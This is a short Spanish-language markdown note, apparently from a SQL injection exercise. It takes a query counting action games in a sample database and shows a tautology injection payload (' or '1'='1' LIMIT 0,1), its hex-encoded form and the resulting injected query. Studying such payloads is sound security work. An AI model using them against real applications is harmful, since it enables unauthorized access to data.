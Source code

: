 ## Query 1

### Original

````sql
# Original
SELECT COUNT(*) AS total_juegos_accion FROM juegos WHERE genero_id = (SELECT genero_id FROM generos WHERE nombre = 'Acción');
````

### Inyección: ` or '1' = '1' LIMIT 0,1`

El payload ` or '1' = '1' LIMIT 0,1` o `0x2b6f722b2731272b3d2b2731272b4c494d49542b302c31` o 

````

SELECT COUNT(*) AS total_juegos_accion FROM juegos WHERE genero_id = (SELECT genero_id FROM generos WHERE nombre = 'Acción'+or+'1'+=+'1'+LIMIT+0,1);
````
